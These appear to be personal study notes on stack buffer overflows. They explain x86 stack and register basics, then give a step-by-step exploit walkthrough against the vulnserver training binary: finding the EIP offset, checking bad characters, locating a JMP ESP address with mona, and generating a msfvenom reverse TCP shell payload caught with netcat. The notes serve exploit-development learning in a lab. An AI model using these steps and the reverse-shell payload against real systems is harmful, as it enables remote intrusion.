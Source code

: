 # basics

![Buffer Overflow](/img/x86Memory.png)

## Stack
* When a tread is running it execute code form the progam image or the DDLs.
* The thread requieres short term data areas for functions, variable, program control information => stack.
* Each threat has its own stack
* LIFO (push/pop)

## Function return mechanics
When code wihting a thread calls a function is must know on which address to return to once the function is completed

Example of return mechanics (stored in a section of stack called stack frame):
| Thread stack frame example|
| ------------- |
| Function A return address: 0x00401024 |
| Parameter 1 for Function A: 0x000000040|
| Parameter 2 for Function A: 0x000001000|

# CPU registers
Small high speed cpu storage locations
* Different registers exists from 32-bit to 8 bits

Most imporant registers (32-bit):
* EAX: for aritmecical and logic instrucations
* EBX: base pointer for memory addresses
* ECX: Loop, shift and rotation counter
* EDX: I/O Port addressing, division, multiplication
* ESI: Pointer of data and source 
* EDi: Pointer of data nd desination in string copy operations

* ESP stack pointer (keeps track of most receent reference locations by stack)
* EBP base pointer (stores a pointer to the top of the sack when a funciton is called)
* EIP always points to the next code instrucation to be executed

# sample volnurable code (C)
//what happens when buffer.length greater than 64? => buffer overflow; overflowing its reserved boundaries
``char buffer[64]; strcpy(buffer, argv[1]);``


# windows
## immunity debugger 
* Open file exe
* Then you can start debugging

## example vulnserver.exe (TCP server)
with nc you can setup a connection to vulnserver to check it

* but kill nc it and run the script ``bufferOverflowHelper.py`` and will hopefully result in something like ``Fuzzing crashed at 22105 bytes``
* Also we see in the immunulty debugger that EIP has been overridding and that it is failing

### detect location of EIP

* to detect location use: ``/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 24105``
* will generate a text and pass this into the ``bufferOverflowHelper.py``
* in immuniaty debugger save the EIP hex, f.i: ``386F4337``
* again with metasploit detect in which location the value is ``/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 24105 -q 386F4337``
* This will geneate the location: ``Exact match at offset 2003`` which means that EIP starts at *2003*

### override EIP
* in your python file substitute buffer where EIP starts (in our case *2003*) with ``buffer = "A" * 2003 + "B" * 4``
* when running the script we will set that EIP is ``42424242`` => BBBB
* Search for badchars in Google, leads to: https://github.com/mrinalpande/scripts/blob/master/python/badchars
* copy this bad chars in your python script and delete 00 && X70 put it in ``badchars`` variable
* buffer variable should look like ``buffer = "A" * 2003 + "B" * 4 + badchars`` 

### check hexdumb of ESP for bad chars
*We have to take the missing chars in the hex dump (Bad chars) out of the shell code for later!*
* check hexdumb of ESP (mark ESP Hex => right click => follow in dump)
(Hexdump) [img/bufferOverflowHexDumpESP.png]
* Check fump for missing chars, f.e.: : ``11 12 B0 14`` => 13 is missing and would be a bad char

### looking for DLL which has no protection (with Monamodules)
Some DLLs have protection against buffer overflow so we need to finds DLLs which do not have it.
* Download monamodule from github: (Mona)[https://github.com/corelan/mona]
* Paste mona.py file under: ``D:\Immunity Debugger\PyCommands``
* In immunuty debugger writh (text field in the lower left corner): ``!mona modules`` and hit enter
* We then see protection settings for certain dlls (check for everything false and attached to the program), in our examlpe: ``essfunc.dll``

### locate JMP commands
Pointer will jump to our malicuous shell code
* type ``locate nasm_shell``
* Call then the path: /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
* Type ``JMP ESP`` and it will generate the hashcode equivalend of it: ``FFE4``
* In immunity debugger type in the lower left corner: ``!mona find -s "\xff\xe4" -m essfunc.dll`` => remember: \x *ff* \x *e4*
* Generates: ``\xff\xe4 & 0x625011af``
* In our script we write in reverse order ``buffer = "A" * 2003 + "\xaf\x11\x50\x62"``
* In immunity debugger debug (lclick on most right symbol, in line with the play button) and enter: ``625011af``
* We are overridding the EIP with our command, you will see the hash code 625011af

### gaining shell
Will generate some shell code for reverse shell
// -b including bad chars if we detected some
type with ip of the "acker": ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"``
* Copy this into our python file as overflow variable like: ``buffer = "A" * 2003 + "B" * 4 + "\xaf\x11\x50\x62" + overflow``
* Add naf space to variable (play a bit around with the size: "\x90" * 8) ``buffer = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 8 +  overflow``=> example bufferOverflowHelperFinal.py
* Start netcat on linux by listening on port 4444
* Run applicatino in admin mode and execute script
* Reverse shell established
